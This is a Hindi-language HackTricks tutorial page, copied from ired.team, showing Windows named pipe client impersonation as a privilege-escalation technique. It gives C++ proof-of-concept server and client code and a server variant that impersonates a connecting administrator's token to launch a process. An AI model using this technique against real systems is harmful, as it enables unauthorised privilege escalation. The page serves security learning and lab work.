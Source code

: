 # नामित पाइप क्लाइंट इम्पर्सनेशन

## नामित पाइप क्लाइंट इम्पर्सनेशन

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

**यह जानकारी** [**https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation**](https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation) **से कॉपी की गई थी**

## अवलोकन

`pipe` एक ब्लॉक होता है जिसे प्रोसेसेस संचार और डेटा एक्सचेंज के लिए उपयोग कर सकते हैं।

`Named Pipes` एक Windows मैकेनिज्म है जो दो असंबंधित प्रोसेसेस को आपस में डेटा एक्सचेंज करने की अनुमति देता है, भले ही प्रोसेसेस दो अलग-अलग नेटवर्क्स पर स्थित हों। यह क्लाइंट/सर्वर आर्किटेक्चर के समान होता है क्योंकि `a named pipe server` और एक `pipe client` की अवधारणाएँ मौजूद होती हैं।

एक नामित पाइप सर्वर किसी पूर्वनिर्धारित नाम के साथ एक नामित पाइप खोल सकता है और फिर एक नामित पाइप क्लाइंट उस पाइप से ज्ञात नाम के माध्यम से जुड़ सकता है। एक बार कनेक्शन स्थापित हो जाने के बाद, डेटा एक्सचेंज शुरू हो सकता है।

यह लैब एक सरल PoC कोड से संबंधित है जो अनुमति देता है:

* एक सिंगल-थ्रेडेड डम्ब नामित पाइप सर्वर बनाना जो एक क्लाइंट कनेक्शन को स्वीकार करेगा
* नामित पाइप सर्वर द्वारा नामित पाइप में एक सरल संदेश लिखना ताकि पाइप क्लाइंट इसे पढ़ सके

## कोड

नीचे सर्वर और क्लाइंट दोनों के लिए PoC दिया गया है:

{% tabs %}
{% tab title="namedPipeServer.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>
#include <iostream>

int main() {
LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
LPVOID pipeBuffer = NULL;
HANDLE serverPipe;
DWORD readBytes = 0;
DWORD readBuffer = 0;
int err = 0;
BOOL isPipeConnected;
BOOL isPipeOpen;
wchar_t message[] = L"HELL";
DWORD messageLenght = lstrlen(message) * 2;
DWORD bytesWritten = 0;

std::wcout << "Creating named pipe " << pipeName << std::endl;
serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);

isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
if (isPipeConnected) {
std::wcout << "Incoming connection to " << pipeName << std::endl;
}

std::wcout << "Sending message: " << message << std::endl;
WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);

return 0;
}
```
{% endtab %}

{% tab title="namedPipeClient.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

const int MESSAGE_SIZE = 512;

int main()
{
LPCWSTR pipeName = L"\\\\10.0.0.7\\pipe\\mantvydas-first-pipe";
HANDLE clientPipe = NULL;
BOOL isPipeRead = true;
wchar_t message[MESSAGE_SIZE] = { 0 };
DWORD bytesRead = 0;

std::wcout << "Connecting to " << pipeName << std::endl;
clientPipe = CreateFile(pipeName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

while (isPipeRead) {
isPipeRead = ReadFile(clientPipe, &message, MESSAGE_SIZE, &bytesRead, NULL);
std::wcout << "Received message: " << message;
}

return 0;
}
```
{% endtab %}
{% endtabs %}

## Execution

नीचे दिखाया गया है कि named pipe server और named pipe client अपेक्षित रूप से कैसे काम कर रहे हैं:

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22.png>)

यह ध्यान देने योग्य है कि named pipes संचार मूल रूप से SMB प्रोटोकॉल का उपयोग करता है:

![](<../../.gitbook/assets/Screenshot from 2019-04-04 23-51-48.png>)

जांच रहे हैं कि कैसे प्रक्रिया हमारे named pipe `mantvydas-first-pipe` के लिए एक हैंडल बनाए रखती है:

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22 (1).png>)

इसी तरह, हम देख सकते हैं कि क्लाइंट के पास named pipe के लिए एक खुला हैंडल है:

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22 (2).png>)

हम powershell के साथ हमारे pipe को भी देख सकते हैं:
```csharp
((Get-ChildItem \\.\pipe\).name)[-1..-5]
```
```markdown
## टोकन इम्पर्सनेशन

{% hint style="info" %}
ध्यान दें कि क्लाइंट प्रोसेस के टोकन का इम्पर्सनेट करने के लिए आपको (नेम्ड पाइप बनाने वाले सर्वर प्रोसेस के पास) **`SeImpersonate`** टोकन प्रिविलेज की आवश्यकता होती है
{% endhint %}

नेम्ड पाइप सर्वर के लिए नेम्ड पाइप क्लाइंट के सिक्योरिटी कॉन्टेक्स्ट को इम्पर्सनेट करना संभव है, जिसके लिए `ImpersonateNamedPipeClient` API कॉल का उपयोग किया जाता है, जो बदले में नेम्ड पाइप सर्वर के वर्तमान थ्रेड के टोकन को नेम्ड पाइप क्लाइंट के टोकन से बदल देता है।

हम इम्पर्सनेशन प्राप्त करने के लिए नेम्ड पाइप सर्वर के कोड को इस तरह अपडेट कर सकते हैं - ध्यान दें कि परिवर्तन लाइन 25 और नीचे में देखे जा सकते हैं:
```
```cpp
int main() {
LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
LPVOID pipeBuffer = NULL;
HANDLE serverPipe;
DWORD readBytes = 0;
DWORD readBuffer = 0;
int err = 0;
BOOL isPipeConnected;
BOOL isPipeOpen;
wchar_t message[] = L"HELL";
DWORD messageLenght = lstrlen(message) * 2;
DWORD bytesWritten = 0;

std::wcout << "Creating named pipe " << pipeName << std::endl;
serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);

isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
if (isPipeConnected) {
std::wcout << "Incoming connection to " << pipeName << std::endl;
}

std::wcout << "Sending message: " << message << std::endl;
WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);

std::wcout << "Impersonating the client..." << std::endl;
ImpersonateNamedPipeClient(serverPipe);
err = GetLastError();

STARTUPINFO	si = {};
wchar_t command[] = L"C:\\Windows\\system32\\notepad.exe";
PROCESS_INFORMATION pi = {};
HANDLE threadToken = GetCurrentThreadToken();
CreateProcessWithTokenW(threadToken, LOGON_WITH_PROFILE, command, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);

return 0;
}
```
सर्वर चलाने और उससे क्लाइंट के साथ कनेक्ट करने पर, जो कि administrator@offense.local सुरक्षा संदर्भ के तहत चल रहा है, हम देख सकते हैं कि नामित सर्वर पाइप के मुख्य धागे ने नामित पाइप क्लाइंट का टोकन मान लिया है - offense\administrator, हालांकि PipeServer.exe स्वयं ws01\mantvydas सुरक्षा संदर्भ के तहत चल रहा है। क्या यह विशेषाधिकार बढ़ाने का अच्छा तरीका लगता है?

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**।
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
